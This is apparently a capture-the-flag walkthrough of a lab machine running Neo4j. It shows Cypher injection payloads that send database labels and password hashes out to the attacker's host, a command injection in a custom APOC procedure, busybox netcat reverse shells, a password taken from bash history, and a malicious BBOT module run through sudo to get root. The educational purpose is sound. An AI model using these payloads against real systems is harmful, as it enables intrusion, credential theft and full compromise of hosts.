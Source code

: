 ## Initial Reconnaissance
### WhatWeb Results
```
Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], 
IP[10.129.10.93], JQuery[3.6.1], Script, Title[GRAPH ASM], nginx[1.24.0]
```
### Interesting Directories
- `/api/auth`
- `/testing`
## Neo4j Cypher Injection Analysis
### Initial Testing
Upon discovering the application was using Neo4j, I began testing for Cypher injection vulnerabilities. I set up an HTTP web server to receive query results and found that the `username` parameter was injectable, while the `password` parameter was not.
### Enumerating Database Schema
I injected the following query to retrieve all database labels:
```cypher
' OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.17/?label='+label as l RETURN 0 as _0 //
```
#### Web Server Log Results
```bash
➜  ~ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.10.93 - - [25/Apr/2025 10:18:44] "GET /?label=USER HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:46] "GET /?label=HASH HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:48] "GET /?label=DNS_NAME HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:50] "GET /?label=SHA1 HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:54] "GET /?label=SCAN HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:55] "GET /?label=ORG_STUB HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:58] "GET /?label=IP_ADDRESS HTTP/1.1" 200 -
```
### Extracting User Information
Next, I extracted user and hash information using the following payload:
```cypher
' OR 1=1 WITH 1 as a MATCH (h:SHA1) UNWIND keys(h) as p LOAD CSV FROM 'http://10.10.16.17/?' + p +'='+toString(h[p]) as l RETURN 0 as _0 //
```
#### Response
```bash
10.129.10.93 - - [25/Apr/2025 10:27:45] "GET /?value=graphasm HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:29:40] "GET /?value=9f54ca4c130be6d529a56dee59dc2b2090e43acf HTTP/1.1" 200 -
```
### Understanding the Query Structure
By forcing an error, I was able to understand the original query structure:
```cypher
message: Query cannot conclude with MATCH (must be a RETURN clause, a FINISH clause, an update clause, a unit subquery call, or a procedure call with no YIELD). (line 1, column 1 (offset: 0))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = ''//' return h.value as hash"
```
## Custom APOC Extension Analysis
After standard authentication bypass techniques failed, I investigated further and found a JAR file in the `/testing` directory named `custom-apoc-extension-1.0-SNAPSHOT.jar`. This appeared to be a custom APOC extension for Neo4j.
### Decompiling and Analyzing the JAR
Upon decompiling, I found the `CustomFunctions.java` class which contained a single function called `getUrlStatusCode`:
```java
@Procedure(
name = "custom.getUrlStatusCode",
mode = Mode.READ
)
@Description("Returns the HTTP status code for the given URL as a string"
public Stream<CustomFunctions.StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
    url = "https://" + url;
}
```
This function automatically appends `https://` to URLs that don't start with a protocol. However, the critical vulnerability was in the command execution:
```java
String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
```
There was no input sanitization on the `url` parameter, creating a command injection vulnerability.
## Exploiting Command Injection
### Testing Command Execution
I crafted a Cypher query to execute `whoami` and send the result back to my web server:
```cypher
' OR 1=1 WITH 1 as a CALL custom.getUrlStatusCode('; whoami') yield statusCode LOAD CSV FROM 'http://10.10.16.17/?label='+statusCode as l RETURN 0 as _0 //
```
#### Response
```
10.129.231.244 - - [26/Apr/2025 08:31:47] "GET /?label=000neo4j HTTP/1.1" 200 -
```
This confirmed the command injection vulnerability worked, showing the command was run as user `neo4j`.
### Obtaining a Reverse Shell
With command execution confirmed, I created a payload to obtain a reverse shell:
```cypher
' OR 1=1 WITH 1 as a CALL custom.getUrlStatusCode('; busybox nc 10.10.16.17 9001 -e sh') yield statusCode LOAD CSV FROM 'http://10.10.16.17/?label='+statusCode as l RETURN 0 as _0 //
```
I started a listener on port 9001 using `nc -lvnp 9001` and received a connection. I upgraded the shell using Python:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Post-Exploitation
### Discovering Credentials
As user `neo4j`, I examined the `.bash_history` file and found database credentials:
```bash
cat /var/lib/neo4j/.bash_history
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK
```
### Privilege Escalation to User graphasm
I ran LinPEAS to search for additional information and discovered another user named `graphasm`. I tested the previously found password with this user:
```bash
su graphasm
# Password: cU4btyib.20xtCMCXkBmerhK
```
Successfully logged in as `graphasm`, I established an SSH session for better stability.
## Privilege Escalation to Root
### Discovering sudo Permissions
I checked sudo permissions for user `graphasm`:
```bash
sudo -l
```
#### Output
```
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty
User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```
This showed that I could run the `bbot` binary as root without a password.
### Researching BBOT
Research revealed that BBOT is a modular OSINT tool that allows loading custom modules. The documentation provided a sample module structure that I could leverage for privilege escalation.
### Creating a Malicious Module
I created a file called `evilmod.py` in the home directory with the following content:
```python
from bbot.modules.base import BaseModule
import os
class evilmod(BaseModule):
    watched_events = ["DNS_NAME"]
    produced_events = ["WHOIS"]
    flags = ["passive", "safe"]
    meta = {"description": "Malicious module for privilege escalation"}
    async def setup(self):
        os.system("busybox nc 10.10.16.17 4444 -e sh")
    async def handle_event(self, event):
        pass
```
### Modifying the Preset File
I modified the existing preset file to include my custom module directory:
```yaml
targets:
  - ecorp.htb
output_dir: /home/graphasm/bbot_scans
module_dirs:
  - /home/graphasm
config:
  modules:
    evil:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```
### Executing the Exploit
I set up a listener on port 4444 and executed the BBOT binary with my preset:
```bash
sudo /usr/local/bin/bbot -t http://10.10.16.17/ -p /home/graphasm/bbot_preset.yml -m evilmod
```
The malicious module executed during setup, and I received a reverse shell with root privileges.

